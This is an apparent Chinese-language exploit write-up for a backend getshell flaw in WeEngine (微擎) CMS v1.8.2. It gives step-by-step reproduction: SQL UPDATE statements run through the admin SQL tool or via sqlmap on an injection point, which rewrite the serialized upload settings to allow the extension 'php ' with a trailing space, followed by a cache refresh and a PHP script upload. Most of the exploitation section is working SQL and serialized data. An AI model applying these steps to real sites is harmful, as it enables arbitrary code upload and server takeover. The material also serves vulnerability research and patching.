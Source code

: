 ```yaml
---
title: 微擎cms v1.8.2 后台getshell
id: zhfly3367
---
```


# 微擎cms v1.8.2 后台getshell

## 一、漏洞简介

## 二、漏洞影响

v1.8.2（201812130002）

## 三、复现过程

站点-附件设置-支持文件后缀

![image](../img/678e73524f8219d7443c3010a17dc2cc.png)

在安装完成的时候,数据库里面并没有写入支持文件后缀的值,需要我们进行添加需要的脚本格式php等等

![image](../img/831d45694b99c584b138baff261a65e4.png)

直接写上支持的后缀为php是会带入到数据库的,提交完毕以后数据库会显示可上传的值

```
a:3:{s:16:"attachment_limit";  
i:0;s:5:"image";a:5:{s:5:"thumb";i:0;s:5:  
"width";i:800;s:10:"extentions";  
a:4:{i:0;s:3:"gif";i:1;s:3:"jpg";i:2;s:4:"jpeg";i:3;s:3:"png";}  
s:5:"limit";i:5000;s:14:"zip_percentage";s:3:"100";}  
s:5:"audio";a:2:{s:10:"extentions";a:1:{i:0;s:3:"mp3";}s:5:"limit";i:5000;}} 
```

### 漏洞利用

写入任意字符

![image](../img/2e87d66ad7c4880ce92f27c9ef5f0fb8.png)

```
a:3:{s:16:"attachment_limit";i:0;s:5:"image";  
a:5:{s:5:"thumb";i:0;s:5:"width";i:800;s:10:"extentions";  
a:5:{i:0;s:3:"gif";i:1;s:3:"jpg";i:2;s:4:"jpeg";i:3;  
s:3:"png";i:4;s:3:"aaa";}s:5:"limit";i:5000;
s:14:"zip_percentage";s:3:"100";}s:5:"audio";  
a:2:{s:10:"extentions";  a:1:{i:0;s:3:"mp3";}s:5:"limit";i:5000;}} 
```

站点-常用工具-数据库-执行SQL语句替换之前插入的值 (记得打开调试模式)

```
UPDATE ims_core_settings SET value = replace(value, 'aaa', 'php ') 
```

注意php后有一个空格

or 如果在渗透过程中有SQL注入点的情况下 有用户权限能够上传,尝试直接在SQLMAP执行语句

```
UPDATE `ims_core_settings` SET
`key` = 'upload',
`value` = 'a:2:{s:5:\"image\";a:4:{s:5:\"thumb\";i:0;  
s:5:\"width\";i:800;s:10:\"extentions\";  
a:5:{i:0;s:3:\"gif\";i:1;s:3:\"jpg\";i:2;  
s:4:\"jpeg\";i:3; s:3:\"png\";i:4;s:3:\"php \";}  
s:5:\"limit\";i:5000;}s:5:\"audio\";  
a:2:{s:10:\"extentions\";a:1:{i:0;s:3:\"mp3\";}s:5:\"limit\";i:5000;}}'
WHERE `key` = 'upload' AND `key` = 'upload' COLLATE utf8mb4_bin; 
```

![image](../img/c724c0074936d3c1ee66c15083469e7a.png)

```
a:3:{s:16:"attachment_limit";i:0;s:5:"image";  
a:5:{s:5:"thumb";i:0;s:5:"width";i:800;s:10:"extentions";  
a:5:{i:0;s:3:"gif";i:1;s:3:"jpg";i:2;s:4:"jpeg";i:3;  
s:3:"png";i:4;s:3:"php ";}s:5:"limit";i:5000;  
s:14:"zip_percentage";s:3:"100";}s:5:"audio";  
a:2:{s:10:"extentions";a:1:{i:0;s:3:"mp3";}s:5:"limit";i:5000;}} 
```

执行完毕-系统-更新缓存

![image](../img/8b70aea90b355975486592daf75f6540.png)

### 上传php文件

以上全部操作完毕,直接在可以上传图片的地方进行上传脚本

![image](../img/b1b6fba36c0ac32ab66399d753e17a94.png)

## 四、参考链接

> https://www.vulnbug.com/Exploit/getshell-vulnerability-in-microcomputer-cms-background.html